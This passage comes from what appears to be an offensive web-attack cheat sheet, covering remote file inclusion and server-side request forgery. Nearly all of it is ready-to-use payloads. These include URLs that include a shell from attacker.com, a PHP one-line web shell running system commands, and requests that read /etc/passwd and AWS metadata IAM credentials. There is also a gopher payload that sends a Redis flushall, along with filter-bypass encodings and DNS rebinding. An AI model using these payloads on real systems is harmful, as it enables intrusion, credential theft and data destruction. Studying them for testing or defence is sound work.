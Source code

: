 **Documentation**: Local file inclusion attacks for accessing system files and executing arbitrary code.
**Limitations**: Path restrictions and input validation prevent LFI; modern PHP versions have protections.

### Remote File Inclusion (RFI) Payloads
```php
// Basic RFI
http://example.com/page.php?file=http://attacker.com/shell.txt
http://example.com/page.php?file=ftp://attacker.com/shell.php

// RFI with PHP Code
// shell.txt content:
<?php system($_GET['cmd']); ?>

// Advanced RFI
http://example.com/page.php?file=http://attacker.com/shell.txt&cmd=id
http://example.com/page.php?file=data://text/plain,<?php system($_GET['cmd']); ?>&cmd=whoami
```

**Documentation**: Remote file inclusion for executing malicious code from external sources.
**Limitations**: allow_url_include must be enabled; firewalls may block external connections.

## Server-Side Request Forgery (SSRF)

### Basic SSRF Payloads
```bash
# Internal Network Scanning
http://example.com/proxy.php?url=http://127.0.0.1:22
http://example.com/proxy.php?url=http://192.168.1.1/admin
http://example.com/proxy.php?url=file:///etc/passwd

# Cloud Metadata Access (AWS)
http://example.com/proxy.php?url=http://169.254.169.254/latest/meta-data/
http://example.com/proxy.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Protocol Smuggling
http://example.com/proxy.php?url=gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a
http://example.com/proxy.php?url=dict://127.0.0.1:11211/stat
```

**Documentation**: SSRF attacks for accessing internal resources and cloud metadata.
**Limitations**: Whitelist restrictions and network segmentation prevent SSRF; modern applications have protections.

### Advanced SSRF Techniques
```bash
# DNS Rebinding
http://example.com/proxy.php?url=http://attacker.com/rebind
# attacker.com resolves to 127.0.0.1 after initial request

# Bypass Filters
http://example.com/proxy.php?url=http://127.0.0.1.xip.io/
http://example.com/proxy.php?url=http://127.1/
http://example.com/proxy.php?url=http://[::1]/
http://example.com/proxy.php?url=http://2130706433/  # Decimal IP

# Time-based SSRF Detection
http://example.com/proxy.php?url=http://httpbin.org/delay/10
```
